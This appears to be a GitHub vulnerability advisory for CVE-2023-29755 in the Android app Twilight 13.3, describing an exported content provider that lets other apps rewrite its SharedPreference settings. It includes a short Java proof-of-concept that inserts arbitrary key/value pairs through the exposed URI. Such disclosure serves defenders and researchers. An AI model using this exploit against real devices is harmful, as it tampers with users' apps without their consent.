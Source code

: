 # Escalation of Privileges exists in Twilight（CVE-2023-29755）

Vendor:   Twilight(http://twilight.urbandroid.org/)

Affected product: Twilight(com.urbandroid.lux)

Version: 13.3

Download link： https://play.google.com/store/apps/details?id=com.urbandroid.lux

Description of the vulnerability for use in the CVE：An issue found in Twilight v.13.3 allows unauthorized apps to cause escalation of privilege attacks by manipulating the SharedPreference files.

Additional information: The Twilight application allows unauthorized applications to use the methods provided in its exposed components to modify data in the SharedPreference file, which is loaded at application startup and affects critical application functionality. Specifically, an attacker is able to change relevant settings in the application by modifying certain key data in the SharedPreference file, such as adjusting the screen brightness, changing the application theme, etc., resulting in an escalation of privilege attack.

poc:

```java
ContentResolver contentResolver = getApplicationContext().getContentResolver();
Uri parse = Uri.parse("content://com.urbandroid.sleep.multiprocesspreferences.PREFFERENCE_AUTHORITY/a/a");
    ContentValues contentValues = new ContentValues();
//attacker can update any data in sharedpreferences!
    contentValues.put(targetKey,targetValue);
    contentResolver.insert(parse,contentValues);
    System.out.println("输入数据");
```

